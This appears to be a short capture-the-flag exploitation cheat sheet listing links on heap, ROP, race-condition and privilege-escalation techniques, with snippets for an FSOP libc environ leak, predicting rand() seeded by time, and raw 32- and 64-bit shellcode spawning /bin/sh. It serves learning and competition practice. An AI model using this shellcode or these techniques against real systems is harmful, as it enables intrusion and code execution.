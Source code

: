 # CTFNote

## [Johnathan Huu Tri](https://github.com/nhtri2003gmail/CTFNote)

## [open-read-write](https://tripoloski1337.github.io/ctf/2021/07/12/bypassing-seccomp-prctl.html)

## [arm-syscall](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#linux-system-call-table)

## [FSOP-leak-stack](https://github.com/wan-hyhty/CTFs_competition/tree/main/ImaginaryCTF2023/mailman)

```python
f = FileStructure()
f.flags = 0xfbad1800
f._IO_read_base = libc.sym['environ']
f._IO_read_ptr = libc.sym['environ']+8
```

## [rand-vulnerability](https://hackmd.io/@whoisthatguy/rand)

```python
from ctypes import CDLL
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(libc.time(0))
```

## [race-condition](https://hackmd.io/@whoisthatguy/toctou?utm_source=preview-mode&utm_medium=rec)

## [ret2csu](https://hackmd.io/@whoisthatguy/ret2csu)

## [ret2dlresolve](https://hackmd.io/@whoisthatguy/ret2dlresolve)

## [rop-arm](http://blog.perfect.blue/ROPing-on-Aarch64)

## [Linux Privilege Escalation](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)

`https://gtfobins.github.io/`

## [shellcode](https://docs.pwntools.com/en/stable/shellcraft.html)

```
32 bit: \x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x31\xDB\x31\xC9\x31\xD2\x89\xE3\x83\xC0\x0B\xCD\x80
64 bit: \x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05
```
